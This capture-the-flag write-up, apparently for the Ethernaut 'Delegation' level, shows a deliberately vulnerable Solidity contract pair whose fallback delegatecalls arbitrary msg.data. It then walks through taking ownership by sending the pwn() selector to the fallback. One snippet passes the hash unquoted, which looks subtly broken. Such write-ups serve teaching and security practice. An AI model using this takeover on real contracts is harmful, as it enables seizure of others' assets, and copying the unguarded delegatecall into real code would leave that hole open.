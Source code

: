 ## Delegation Challenge

## The goal of this challenge is to claim ownership of this smart contract

Solidity Code: 
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

As you can see there are two contracts in this challenge instead of a single contract where we would be creating another one and sending a malicious transaction.

Now when we deploy the contract from ethernaut you have to understand that initally we are deploying the `Delegation` contract not the `Delegate` contract. So we can't just call the `pwn()` function.

Within the delegation contract we can see that the constructor already sets the deployer to the owner of the contract and the fallback is the only thing we can refer to, the fallback function has the delegatecall method and uses msg.data within.

So we will get the hash or `msg.data` of the `pwn()` function first by using the following snippet below

```bash
web3.utils.sha3("pwn()")
```

This will return a hash something similar to this :

```bash
0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab
```

Next, You can call the `pwn()` function and pass in the returned data: 

```javascript
await contract.sendTransaction(
    { data: 0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab });
```

And boom there you have it!!!

You should now be the owner of the contract and you should be able to see it like this: 

```javascript
await contract.owner()
```